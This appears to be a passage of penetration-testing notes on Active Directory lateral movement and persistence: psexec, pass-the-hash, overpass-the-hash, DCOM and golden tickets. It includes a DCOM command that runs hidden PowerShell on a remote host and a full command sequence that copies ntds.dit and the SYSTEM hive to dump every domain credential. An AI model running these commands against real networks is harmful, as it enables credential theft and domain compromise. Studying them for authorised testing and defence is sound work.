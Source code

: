 ```shell
Enter-PSSession [Session_ID]
```
### psexec
- In order to misuse the tool for lateral movement, 4 requisites must be met.
	1. The user that authenticates to the target machine needs to be part of the `Administrators` local group.
	2. `ADMIN$` share must be available.
	3. Requires an `SMB` connection through the firewall.
	4. File and Printer Sharing has to be turned on.
### Pass the Hash
- `Impacket Suite`
- https://github.com/byt3bl33d3r/pth-toolkit
- Tools that are built to abuse `PtH` can be leveraged to start a Windows service (for example, cmd.exe or an instance of PowerShell) and communicate with it using `Named Pipes`. This is done using the `Service Control Manager API`.
- 4 requisites must be met.
	1. The user that authenticates to the target machine needs to be part of the `Administrators` local group.
	2. `ADMIN$` share must be available.
	3. Requires an `SMB` connection through the firewall.
	4. File and Printer Sharing has to be turned on.
### Overpass the Hash
- With overpass the hash, we can "over" abuse an `NTLM` user hash to gain a full Kerberos Ticket Granting Ticket (`TGT`). Then we can use the TGT to obtain a Ticket Granting Service (`TGS`).
### Pass the Ticket
- `All Hail to Mimikatz!`
### DCOM
- Interaction with `DCOM` is performed over `RPC` on TCP port 135 and local administrator access is required to call the `DCOM` Service Control Manager, which is essentially an `API`.
- https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/
```shell
[System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","[IP]")).Document.ActiveView.ExecuteShellCommand("powershell.exe",$null,"-nop -w hidden -c ...","7")
```
# AD Persistence
### Golden Ticket
- If we can get our hands on the `krbtgt` password hash, we could create our own self-made custom TGTs, also known as `golden tickets`.
### Shadow Copies
- A `Shadow Copy`, also known as `Volume Shadow Service(VSS)` is a Microsoft backup technology that allows the creation of snapshots of files or entire volumes.
- As domain admins, we can abuse the `vshadow` utility to create a Shadow Copy that will allow us to extract the Active Directory Database `NTDS.dit` database file. Once we've obtained a copy of the database, we need the `SYSTEM hive`, and then we can extract every user credential offline.
```shell
# Retrieve `ntds.dit` database file.
vshadow.exe -nw -p  C:
# Rename to `ntds.dit.bak`.
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\ntds\ntds.dit c:\ntds.dit.bak
# Retrieve `SYSTEM hive` from the Windows registry.
reg.exe save hklm\system c:\system.bak
# Parse the files locally by adding the `LOCAL` keyword.
impacket-secretsdump -ntds ntds.dit.bak -system 
system.bak LOCAL
```

